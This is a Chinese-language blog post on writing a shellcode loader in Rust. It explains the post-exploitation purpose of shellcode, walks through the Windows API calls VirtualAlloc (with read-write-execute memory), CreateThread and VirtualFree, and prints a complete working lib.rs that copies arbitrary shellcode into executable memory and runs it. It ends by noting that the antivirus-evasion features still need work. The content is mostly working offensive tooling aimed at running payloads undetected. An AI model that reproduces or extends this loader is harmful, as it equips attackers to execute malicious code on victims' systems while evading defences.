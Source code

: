 # rust编写shellcode加载器


​	突发奇想用rust写一个shellcode加载器,花了两天研究了思路和大佬的代码.

项目地址:https://github.com/fumerem/shellcode_loader

## 0x00 shellcode加载器原理

shellcode:一段16进制的机器码,后渗透中经常使用它来得到shell而得名.

加载器原理:为shellcode分配动态内存,并创建进程执行shellcode

## 0x01 加载器的编写

先列举一下加载器需要调用的windows的api

### VistualAlloc

> 申请内存
>
> LPVOID VirtualAlloc {
>
> ​	LPVOID lpAddress, #要分配的内存区域的地址
>
> ​	DWORD dwSize,      #分配的大小
>
> ​	DWORD flAllocationType, #分配的类型
>
> ​	DWORD flProtect     #该内存的初始保护属性
>
> };

代码实现

```rust
unsafe {
	memory.ptr = Memory::VirtualAlloc(
		ptr::null(),
		//memory address to distribute
		len,
		//memory size
		Memory::MEM_COMMIT | Memory::MEM_RESERVE,
		//alloc type
		Memory::PAGE_EXECUTE_READWRITE,
		//protect attribute
	) as *mut u8;
};
```



### CreateThread

> 创建进程调用CreateThread将在主线程的基础上创建一个新线程CreateThread
>
> HANDLE CreateThread (
>
> ​	LPSECURITY_ATTRIBUTES lpThreadAttributes,#线程安全属性
>
> ​	SIZE_T dwStackSize,       #置初始栈的大小，以字节为单位
>
> ​	LPTHREAD_START_ROUTINE lpStartAddress,  #指向线程函数的指针
>
> ​	LPVOID lpParameter,          #向线程函数传递的参数
>
> ​	DWORD dwCreationFlags,       #线程创建属性
>
> ​	LPDWORD lpThreadId           #保存新线程的id
>
> )

代码实现

```rust
th.handle = Threading::CreateThread(
	ptr::null_mut(),
	//thread protect attribute
	0,
	//stack attribute
	Some(ep),
	//pointer to thread func
	ptr::null_mut(),
	//prama to thread func
	windows::Win32::System::Threading::THREAD_CREATION_FLAGS(0),
	//thread create flags
	&mut th.tid,
	//thread id
).unwrap();
```

### VirtualFree


> VirtualFreeEx{编辑 播报
>
> ​	HANDLE hProcess, // 要释放内存所在进程的句柄
>
> ​	LPVOID lpAddress, // 区域地址
>
> ​	DWORD dwSize, // 区域大小，字节
>
> ​	DWORD dwFreeType //类型
>
> };


代码实现

```rust
Memory::VirtualFree(self.ptr as *mut c_void, 0, Memory::MEM_RELEASE);
```

lib.rs全部代码

```rust
use std::ptr;
use std::slice;
use std::mem;
use std::ffi::c_void;
use windows::Win32::System::Memory;
use windows::Win32::Foundation;
use windows::Win32::Foundation::WIN32_ERROR;
use windows::Win32::System::Threading;
use windows::Win32::System::WindowsProgramming;

pub struct DistributeMemory {
	len: usize,
	ptr: *mut u8,
}

impl Drop for DistributeMemory {
	fn drop(&mut self) {
		unsafe{
			Memory::VirtualFree(self.ptr as *mut c_void, 0, Memory::MEM_RELEASE);
		}
	}
}

impl DistributeMemory {
	fn new(len: usize) -> Result<DistributeMemory, WIN32_ERROR> {
		let mut memory = DistributeMemory {
			len,
			ptr: ptr::null_mut(),
		};
		
		unsafe {
			memory.ptr = Memory::VirtualAlloc(
				ptr::null(),
				//memory address to distribute
				len,
				//memory size
				Memory::MEM_COMMIT | Memory::MEM_RESERVE,
				//alloc type
				Memory::PAGE_EXECUTE_READWRITE,
				//protect attribute
			) as *mut u8;
		};
		
		if memory.ptr.is_null() {
			Err( unsafe{ Foundation::GetLastError()} )
		} else {
			Ok(memory)
		}
	}
	
	pub fn as_slice_mut(&mut self) -> &mut[u8] {
		unsafe { slice::from_raw_parts_mut(self.ptr, self.len) }//turn pointer to mut slice
	}
	
	pub fn as_ptr(&self) -> *mut u8 {
		self.ptr
	}
}

pub struct Thread {
	handle: Foundation::HANDLE,
	tid: u32,
}

impl Drop for Thread {
	fn drop(&mut self) {
		unsafe { Foundation::CloseHandle(self.handle) };
	}
}

impl Thread {
	pub unsafe fn run(start: *const u8) -> Result<Thread, WIN32_ERROR> {
		let mut th = Thread {
			handle: Foundation::HANDLE(0),
			tid: 0,
		};
		
		let ep: extern "system" fn(*mut c_void) -> u32 = { std::mem::transmute(start) };
		
		th.handle = Threading::CreateThread(
			ptr::null_mut(),
			//thread protect attribute
			0,
			//stack attribute
			Some(ep),
			//pointer to thread func
			ptr::null_mut(),
			//prama to thread func
			windows::Win32::System::Threading::THREAD_CREATION_FLAGS(0),
			//thread create flags
			&mut th.tid,
			//thread id
		).unwrap();
		
		if th.handle == Foundation::HANDLE(0) {
			Err(Foundation::GetLastError())
		} else {
			Ok(th)
		}
	}
	
	pub fn wait(&self) -> Result<(), WIN32_ERROR> {
		let status = unsafe { Threading::WaitForSingleObject(self.handle, WindowsProgramming::INFINITE) };
		if status == 0 {
			Ok(())
		} else {
			Err( unsafe{Foundation::GetLastError()} )
		}
	}
}

pub fn run(shellcode: Vec<u8>) -> Result<(), WIN32_ERROR> {
	let mut me = DistributeMemory::new(shellcode.len())?;
	let ms = me.as_slice_mut();
	ms[..shellcode.len()].copy_from_slice(shellcode.as_slice());
	let t = unsafe {
		Thread::run(me.as_ptr())
	}?;
	t.wait()
}
```

## 0x02 存在的缺陷

​	由于使用的是指定成员数量的切片,在main.rs中复制粘贴时必须改变[u8]的数量.

免杀功能仍须改进

